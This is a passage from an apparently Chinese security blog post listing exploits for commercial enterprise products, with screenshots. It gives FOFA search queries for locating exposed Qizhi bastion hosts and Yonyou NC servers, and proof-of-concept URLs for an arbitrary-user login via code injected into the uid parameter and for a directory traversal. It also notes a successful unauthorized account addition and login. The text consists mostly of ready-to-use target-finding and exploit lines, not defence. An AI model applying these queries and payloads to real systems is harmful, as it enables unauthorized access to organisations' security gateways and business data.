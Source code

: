 ![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZLicV9KtCuf1ERtmsrNPhR0ep0ttyuxYwKknTiaPtVEMLzMNf5yQSic0aA/640?wx_fmt=png)

回到未授权暴露账号密码的接口处，可以发现 qwe 用户添加成功

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZictQEicQLsoGkJodfc0JEznqyF1cyIOZRiatNrc7lCDOvvWQQgXIStvdg/640?wx_fmt=png)

最后登录成功  

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZOcOwCbgJYW9eLeBE4Sx7E11icMMHMVIiajKyibcXAWlYnV9z9Gz9p9VxQ/640?wx_fmt=png)

齐治堡垒机任意用户登录

fofa 搜索
-------

```
app="齐治科技-堡垒机"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZuugb6KE9BP4B54eTXKCJBcyWrmrKPdXgIM1R6pxLUYNgFQQPHic4BHQ/640?wx_fmt=png)

poc  

```
https://x.x.x.x/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZI3IVE97amh040rPiaxnk65dQB7pBgfXuVSN1wEpWHTflXqZtZd4gPBw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZQsriaqpOLPBJxIv6hNicHm6TWibqKVgdcTlaSBtoiapXk4jLAQe6ttKQsg/640?wx_fmt=png)

用友 NC 目录遍历漏洞

fofa 语法
-------

```
app="用友-UFIDA-NC"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZQLaATvH3XwqaAajm19z4eBcvv76vKdzqiam9XgVquuvyUibfSkLWJxxg/640?wx_fmt=png)

poc  

------

```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZFuARqkT5V2Ft4mZhiaajXtnIBw78hBth8wX8loibWO6bCtmwzQHbpnjw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZCRFueDaRwvZ33pSYvOwgM8ZmC7zXa9auNgrMozJ0ddPK2vyXSibKbXw/640?wx_fmt=png)

亿邮电子邮件系统存在远程命令执行漏洞
